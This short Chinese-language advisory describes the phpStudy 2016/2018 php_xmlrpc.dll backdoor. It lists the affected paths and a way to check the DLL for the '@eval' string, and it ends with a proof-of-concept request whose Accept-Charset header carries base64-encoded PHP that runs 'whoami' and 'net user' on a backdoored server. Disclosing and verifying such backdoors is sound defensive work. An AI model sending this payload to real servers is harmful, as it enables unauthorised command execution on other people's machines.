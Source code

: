 # 影响版本

- phpStudy2016
    `php\php-5.2.17\ext\php_xmlrpc.dll`
    `php\php-5.4.45\ext\php_xmlrpc.dll`
- phpStudy2018
    `PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
    `PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`

## 后门验证：

用记事本或者Notepad++打开phpstudy安装目录下的：

```
PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll
```

存在`@eval(%s('%s'));`即说明有后门。



poc:

Accept-charset: ZWNobyBzeXN0ZW0oIndob2FtaSIpOw==

ZWNobyBzeXN0ZW0oIm5ldCB1c2VyICIpOw==

Accept-Encoding: gzip,deflate

ZWNobyBzeXN0ZW0oIndob2FtaSIpOw== 为echo system("whoami"); base64编码后内容
